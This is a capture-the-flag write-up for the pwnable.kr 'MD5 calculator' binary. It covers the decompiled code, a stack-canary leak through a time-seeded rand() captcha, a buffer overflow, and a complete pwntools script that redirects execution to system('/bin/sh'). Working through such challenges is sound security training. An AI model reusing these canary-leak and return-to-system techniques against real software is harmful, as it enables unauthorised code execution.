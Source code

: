 # Pwnable.kr MD5 calculator CTF Writeup

## Problem Description

The code of the program is:

### my_hash

```c
08048ed8  int32_t my_hash()

08048edf      void* gsbase
08048edf      int32_t eax = *(gsbase + 0x14)
08048eed      void var_30
08048eed      void* var_38 = &var_30
08048eed      
08048f1a      for (int32_t i = 0; i s<= 7; i += 1)
08048f10          *((i << 2) + var_38) = rand()
08048f10      
08048f75      int32_t result = *(var_38 + 0x14) + *(var_38 + 4) + *(var_38 + 8) - *(var_38 + 0xc) + *(var_38 + 0x20) + *(var_38 + 0x1c) + *(var_38 + 0x10) - *(var_38 + 0x18)
08048f75      
08048f85      if (eax == *(gsbase + 0x14))
08048f91          return result
08048f91      
08048f87      __stack_chk_fail()
08048f87      noreturn
```

### process_hash

```c
08048f92  int32_t process_hash()

08048f9d      void* gsbase
08048f9d      int32_t eax = *(gsbase + 0x14)
08048fbe      void s
08048fbe      __builtin_memset(&s, c: 0, n: 0x200)
08048fc9      int32_t i
08048fc9      
08048fc9      do
08048fc1          i = getchar()
08048fc9      while (i != 0xa)
08048fde      __builtin_memset(s: 0x804b0e0, c: 0, n: 0x400)
08048ff8      fgets(buf: &_0x804b0e0, n: 0x400, fp: stdin)
08049013      __builtin_memset(&s, c: 0, n: 0x200)
08049044      int32_t eax_3 = calc_md5(&s, Base64Decode(0x804b0e0, &s))
08049061      printf(format: "MD5(data) : %s\n", eax_3)
0804906f      free(mem: eax_3)
08049077      int32_t result = eax ^ *(gsbase + 0x14)
08049077      
0804907e      if (result == 0)
0804908e          return result
0804908e      
08049080      __stack_chk_fail()
08049080      noreturn
```

### main

```c
0804908f  int32_t main(int32_t argc, char** argv, char** envp)

080490b8      setvbuf(fp: stdout, buf: nullptr, mode: 1, size: 0)
080490dd      setvbuf(fp: stdin, buf: nullptr, mode: 1, size: 0)
080490e9      puts(str: "- Welcome to the free MD5 calcul…")
080490fd      srand(x: time(nullptr))
08049102      int32_t eax_1 = my_hash()
0804911b      printf(format: "Are you human? input captcha : %…", eax_1)
08049130      int32_t var_18
08049130      __isoc99_scanf(format: &data_80492df, &var_18)
08049130      
0804913d      if (eax_1 != var_18)
08049146          puts(str: "wrong captcha!")
08049152          exit(status: 0)
08049152          noreturn
08049152      
0804915e      puts(str: "Welcome! you are authenticated.")
0804916a      puts(str: "Encode your data with BASE64 the…")
0804916f      process_hash()
0804917b      puts(str: "Thank you for using our service.")
08049187      system(line: "echo `date` >> log")
08049192      return 0
```

## Analysis

The program first uses the `srand` function to seed the PRNG (pseudo-random number generator). The seed is the current time. This means that if we know the exact time the program ran, we can predict all the random values produced by `rand()`.

After that the program calls the `my_hash` function which generates a hash. It does this by creating an array of length 8 that contains random values (which we can predict). Then it calculates the hash like this:

```
result = vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6] + var[8]
```

As we can see, there is a buffer overflow here because `var[8]` is outside the array. So the hash contains some 4-byte value from the stack, which we can calculate and find. To find what that value is, we need to look at the disassembly. There we can see the canary is set in these lines:

```asm
.text:08048EDF                 mov     eax, large gs:14h
.text:08048EE5                 mov     [ebp-0xc], eax
```

So the canary is located at `[ebp-0xc]`.

From the disassembly we also see:

```asm
mov [ebp-0xc], eax
lea eax, [ebp-0x2c]
mov [ebp-0x34], eax
```

So the array starts at `[ebp-0x2c]` (which is `[ebp-44]`) and its size is 8 entries, so its total size is 32 bytes. That means `arr[8]` is at address `[ebp-12]` (44 − 32 = 12), which in hex is `[ebp-0xc]`, and that's where the canary is saved.

Therefore the hash equals `vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6] + canary`. Since we know all the random values, we can calculate the canary. All we need to do is run the exploit code locally (so `time()` returns the same value), create an array of 8 random numbers and calculate the hash without the canary. Then take the hash the program gives us and subtract the hash we calculated — the difference is the canary.

---

The second part of the exploit is in the `process_hash()` function. In this function there is another buffer overflow: on the stack there is an array of length `0x200` bytes (512 bytes), but the program allows us to write `0x400` (1024 bytes) to it. However, because of stack protection (the canary), we cannot overwrite the stack successfully unless we preserve the canary.

Fortunately, we already know the canary, so we simply need to overwrite the stack with our payload and write the original canary value back in its saved location. This way we can overwrite the return address and perform a ROP-style redirect.

To exploit this, overwrite the return address so it points to `0x8049187` (which is the `call system` address) instead of the address of `main`. We must also place an argument on the stack that points to the string `/bin/sh\0`. Since that string does not exist elsewhere in the program, write it into our buffer and calculate the address where it will reside.

In conclusion, the payload should look like this:

```
base64_encode(A * 512 + canary + [address of `call system`] + [address of "/bin/sh\0"]) + "/bin/sh\0"
```

(Note: the trailing `"/bin/sh\0"` should not be base64-encoded because we rely on the address in the `.bss` section and our input will appear there.)



## Exploit Code

```python
from pwn import *
import ctypes
import time

context.log_level = 'info'

libc = ctypes.CDLL("libc.so.6")
libc.srand.argtypes = (ctypes.c_uint,)
libc.rand.restype = ctypes.c_int

seed = int(time.time())
libc.srand(seed)

vals = [libc.rand() for _ in range(8)]

result = vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6]
print("result:", result)

p = remote('localhost', 9002)

p.recvuntil(b'captcha : ')
captcha = int(p.recv().decode())
p.sendline(str(captcha))
print("captcha:", captcha)

canary = captcha - result
canary = canary & 0xffffffff
canary = p32(canary)
print("canary:", canary)

call_system_addr = p32(0x8049187)
print("call system address:", call_system_addr)

binsh_addr = p32(0x804B3AC)
print("/bin/sh address:", binsh_addr)

payload = b'A' * 512 + canary + b'A' * 12 + call_system_addr + binsh_addr
payload = b64e(payload).encode() + b'/bin/sh\0'

p.recvuntil(b'Encode your data with BASE64 then paste me!\n')
p.sendline(payload)
p.interactive()
```



